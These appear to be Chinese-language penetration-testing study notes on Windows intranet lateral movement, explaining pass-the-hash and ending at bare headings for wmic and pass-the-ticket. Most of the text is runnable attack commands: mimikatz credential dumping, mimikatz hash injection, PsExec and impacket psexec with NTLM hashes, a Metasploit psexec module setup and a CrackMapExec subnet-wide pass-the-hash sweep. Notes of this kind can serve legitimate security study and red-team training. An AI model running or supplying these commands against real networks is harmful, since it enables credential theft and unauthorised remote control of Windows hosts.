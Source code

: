 # 内网渗透

## Windows内网渗透

### 域信息收集命令

> query user || qwinsta		查看当前在线用户
>
> net user 		查看本机用户
>
> 

## 横向渗透

### PTH（pass-the-hash）

>  pass-the-hash在内网渗透中是一种很经典的攻击方式，原理就是攻击者可以直接通过LM Hash和NTLM Hash访问远程主机或服务，而不用提供明文密码。

**pass the hash原理：**

+ 在windows系统中，通常会使用NTLM身份认证
+ NTLM认证不使用明文口令，而是使用口令加密后的hash值，hash值是由系统API生成（例如LsaLogonUser）
+ hash分为LM hash 和NTLM hash，如果密码长度大于15，那么无法生成LM hash。从Windows Vista 和 Windows server 2008开始，微软默认禁用LM hash
+ 如果攻击者获得了hash，就能够在身份验证的时候模拟该用户（即跳过了调用API生成hash的过程）

**这类攻击适用于：**

+ 域/工作组环境
+ 可以获得hash，但是条件不允许对hash爆破
+ 内网中存在和当前机器相同的密码

> 微软也对pth 打过补丁，然而在测试中发现，在打了补丁后，常规的Pass The Hash 已经无法成功，唯独默认的`Administrator(SID 500)账号例外`，利用这个账号仍可以进行Pass The Hash 远程ipc 连接。
>
> 如果禁用了ntlm 认证，PsExec 无法利用获得的ntlm hash 进行远程连接，但是使用mimikatz 还是可以攻击成功。
> 从windows 到windows 横向pth 这一类攻击方法比较广泛。

**`mimiktaz`工具**

~~~
mimitkaz pth
privilege::debug
sekurlsa::logonpasswords 
或者直接把信息输出到password.txt文件中
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"> pass
word.txt
~~~

![image-20220817145337599](内网渗透学习笔记.assets/image-20220817145337599.png)

**得到hash后运行**

~~~
privilege::debug
sekurlsa::pth /user:administrtor /domain:workgroup /ntlm:32ed87bdb5fdc5e9cba88547376818d4
~~~

![image-20220817145819253](内网渗透学习笔记.assets/image-20220817145819253.png)

**成功后会弹出终端cmd**



**`psexec`工具**

> 简介：
>
> + psexec是Windows官方自带的，不会存在查杀问题，属于pstools；利用psExec可以在远程计算机上执行命令，其`基本原理`是通过管道在远程目标主机上创建一个psexec服务，并在本地磁盘中生成一个名为PSEXESVC的二进制文件，然后通过psexec服务运行命令，运行结果后删除服务。
> + 利用SMB服务可以通过明文或hash传递来远程执行，条件445服务端口开放。对方开放445端口，就相当于开放了smb协议
>
> 

psexec第一种：先有ipc连接，psexec 需要明文或hash 传递

~~~
PsExec64.exe /accepteula /s \\192.168.0.123 -u Administrator -p 123456 cmd

-accepteula 第一次运行PsExec 会弹出确认框，使用该参数就不会弹出确认框
-s 以System 权限运行远程进程，如果不用这个参数，就会获得一个对应用户权限的shell直接直接执行回显
-u 域\用户名
-p 密码
~~~

上面是建立在明文之上

下面是在hash 下进行登录

~~~
psexec -hashes aad3b435b51404eeaad3b435b51404ee:32ed87bdb5fdc5e9cba88547376818d4 ./Administrator@192.168.0.123
~~~

![image-20220817151950258](内网渗透学习笔记.assets/image-20220817151950258.png)

**出现这个错误可以使用impacket 这个工具包下的psexec 进行利用**

~~~
python3 psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:32ed87bdb5fdc5e9cba88547376818d4 ./Administrator@192.168.0.123
~~~

![image-20220817152053613](内网渗透学习笔记.assets/image-20220817152053613.png)

**在使用PsExec 时需要注意以下几点：**

+ 需要远程系统开启admin$ 共享（默认是开启的）
+ 因为PsExec 连接的原理是基于IPC 共享，因此目标需要开放445 端口
+ 在使用IPC$ 连接目标系统后，不需要输入账户和密码。
+ 在使用PsExec 执行远程命令时，会在目标系统中创建一个psexec 的服务，命令执行完后，psexec 服务将被自动删除。由于创建或删除服务时会产生大量的日志，因此蓝队在溯源时可以通过日志反推攻击流程。
+ 使用PsExec 可以直接获得System 权限的交互式Shell 的前提目标是administrator 权限的shell
+ **在域环境测试时发现，非域用户无法利用内存中的票据使用PsExec 功能，只能依靠账号和密码进行传递。**



**登陆域管理命令：**

impacket 下的psexec

~~~
python3 psexec.py moonsec/Administrator@192.168.0.142
~~~

执行命令后输入密码
登陆其他主机管理员

~~~
psexec /accepteula /s \\12server1 -u Administrator -p 123456 cmd
~~~



**`使用msf hash 模块`**

~~~
use exploit/windows/smb/psexec
set SMBUser Administrator
set rhosts 192.168.0.141
set smbpass aad3b435b51404eeaad3b435b51404ee:32ed87bdb5fdc5e9cba88547376818d4
~~~

![image-20220817152635897](内网渗透学习笔记.assets/image-20220817152635897.png)

**`CrackMapExec`**

CrackMapExec 可以对C 段中的主机进行批量pth,项目地址：https://github.com/byt3bl33d3r/CrackMapExec.git

使用命令：

~~~
crackmapexec smb 192.168.0.0/24 -u administrator -H 32ed87bdb5fdc5e9cba88547376818d4
对192.168.9.0/24 C 段进行批量pass the hash

~~~

![image-20220817152757196](内网渗透学习笔记.assets/image-20220817152757196.png)



**`wmic`**













### PTT（pass the ticket）票据传递攻击

**Kerberos 协议& Kerberos 认证原理**



